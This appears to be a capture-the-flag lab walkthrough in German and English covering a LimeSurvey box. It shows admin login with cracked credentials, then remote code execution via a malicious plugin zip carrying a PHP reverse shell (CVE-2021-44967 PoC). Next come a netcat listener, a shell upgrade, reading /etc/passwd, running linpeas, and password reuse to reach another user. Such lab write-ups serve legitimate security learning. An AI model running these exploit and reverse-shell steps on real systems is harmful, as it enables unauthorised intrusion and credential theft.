# System Access

## Try Credentials
[User ralph access](../db-access/gaining-db-access.md#3-hashcat)

### 1. SSH Login try

```
ssh ralph@10.10.11.46
```

- Wrong Login Credentials
---

### 2. Admin Panel Login try

```
take-survey.heal.htb/admin

Username: ralph
Password: 147258369
```


#### Hat geklappt:


---

# Admin Panel Enumeration

## Gefahren durch den Zugriff auf das Admin Panel

1. Survey
   - Zugriff auf die Survey + Editieren ist möglich
   - Script in die Survey eingebunden => Jeder der die Survey öffnet bekommt das Script ins Gesicht




---

## Nach LimeSurvey CVE's gesucht

Das hier gefunden:
- https://ine.com/blog/cve-2021-44967-limesurvey-rce
- Verweist auf:
  - CVE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44967
  - PoC: https://github.com/Y1LD1R1M-1337/Limesurvey-RCE
  - Exploit DB: https://www.exploit-db.com/exploits/50573


## Vorgehen:

### 1. PoC heruntergeladen (https://github.com/Y1LD1R1M-1337/Limesurvey-RCE/tree/main)


### 2. ```php-rev.php```
- IP und Port angepasst (Eigene IP herausgefunden mit ```ip a```)


### 3. Create a zip file with the config and the reverse shell code


### 4. Upload & Install Plugin

#### 4.1 Login + go to configuration


#### 4.2 Under configuration navigate to the plugins


#### 4.3 Upload and install button


#### 4.4 Upload & Install malicious zip file


#### 4.5 Error -> Wrong Lime version


#### 4.6 Change version in config file / add version


#### 4.7 Try again -> works


#### 4.8 Activate Plugin


#### 4.9 Get Plugin id by hovering over the plugin



### 5. ```exploit.py ```

#### 5.1. Script anpassen


#### 5.2 Lokalen Pfad anpassen


#### 5.3 Listen on ```Port 1337```
```
nc -lvp 1337

   -l: Listen mode. Netcat will wait for an incoming connection.
   -v: Verbose. Provides more detailed output.
   -p: Local port to listen on.
```


#### 5.4 Exploit Datei ```exploit.py``` ausführen
```
python3 exploit.py URL username password port

python3 exploit http://take-survey.heal.htb ralph 147258369 80
```


- Hat geklappt => Reverse Shell erlangt als www-data User
---

# Reverse Shell
## Shell Enumeration

- Habe eine dumme shell mit der ich keine arrow key oder auto completion benutzen kann => Die
dumme shell zu einem terminal upgraden




---
## Upgrade dumb shell to fully functional terminal to be able to enumerate better
Quelle: https://0xmrmasry.medium.com/upgrading-simple-shells-to-fully-interactive-ttys-eeeea1e6654e

### 1. Herausfinden ob ich python für ein upgrade verwenden kann
```which python3```


### 2. ```python3 -c 'import pty; pty.spawn("/bin/bash")'```


### 3. STRG + Z um Netcat in den Hintergrund zu schicken


### 4. Terminal auf raw setzen und die Eingabe weiterleiten + danach Netcat wieder in den vordergrund holen

```
stty raw -echo;fg

=>  Kombi sorgt dafür, dass die Sonderzeichen nur innerhalb speziell DIESER shell im raw format übertragen werden. 
    Wenn nicht, dann kann es dazu führen, dass alle Sonderzeichen nicht mehr interpretiert werden (auch in der shell auf meinem rechner).  
    Befehle aus dem lokalen Terminal in die Reverse Shell durchreichen.
stty raw:
=>  Sorgt dafür, dass die sonderzeichen nicht interpretiert werden sondern im raw format an die shell über echo hingesendet werden

fg (foreground):
=>  Sorgt dafür, dass die shell wieder in den vordergrund gesetzt wird
```

### 5. Arrow keys and TAB work but 'clear' doesn't


Herausfinden, welches Terminal ich benutze:
```
echo $TERM
```
```
Result:

xterm-256color
```


Anschließend das Terminal setzen
```
export TERM=xterm-256color
```


### 6. TAB, Arrow keys, Auto completion works


---

## Continue Enumeration
### 1. Ich bin gerade nur www-data user => sehr eingeschränkte Rechte

### 2. Prüfen, was ich als www-data mit sudo ausführen darf
```
sudo -l
```


Geht nicht, da ich das Passwort nicht habe.

### 3. Herausfinden welche User es gibt die eine shell haben
```
cat /etc/passwd | grep 'sh$'
```


```
root:x:0:0:root:/root:/bin/bash
ralph:x:1000:1000:ralph:/home/ralph:/bin/bash
postgres:x:116:123:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
ron:x:1001:1001:,,,:/home/ron:/bin/bash
```

Es gibt 3 User mit einer shell:
- ralph
- ron
- postgres

### 4. In deren Verzeichnis gehen
1. Ralph und Ron:
- haben ein Home Verzeichnis


Ich habe keinen Zugriff auf deren Home Verzeichnisse.

2. Postgres User:





Kein Zugriff auf die Postgres Verzeichnisse.


## Linpeas
### Schreibzugriff finden um linpeas auf den Server zu laden
Script:
https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

1. ```/tmp``` alle rechte



2. Schreibe/Lese Rechte 


3. HTTP Server über Python hochfahren und das linpeas script bereitstellen



4. linpeas script von Server herunterladen


5. Execute Rechte hinzufügen
```
chmod +x linpeas.sh
```



### Linpeas ausführen und auswerten

#### 1. System Infos


#### 2. Linux Exploit Suggestions


#### 3. Cron Jobs


#### 4. Active Ports
- Interesting because of the new Ports


1. Search how to access internal ports from outside
   - ssh local port forwarding 
   - Quelle:
     - https://snapshooter.com/learn/linux/how-to-ssh-tunel-proxy
     - https://www.youtube.com/watch?v=F-ubwghsWPM

2. Need ssh password to be able to access internal ports
3. Get User access first

#### 5. Useful software / installed compilers


#### 6. PostgreSQL Files


#### 6. Found config files with password


- Inside the config file:


### Newly found password usage

#### 1. Try in db


```
psql -d survey -h localhost -p 5432 -U db_user -W

    -d = DB
    -h = HOST
    -p = PORT
    -U = USER
    -W = Connect via password
```

- Nothing of value to get user access


#### 2. Try Passwords with other Users
- Ron works



- Now I can connect to ron via ssh with his credentials
---


# [Getting Root](../../priviledge-escalation/root-esc/getting-root.md)


---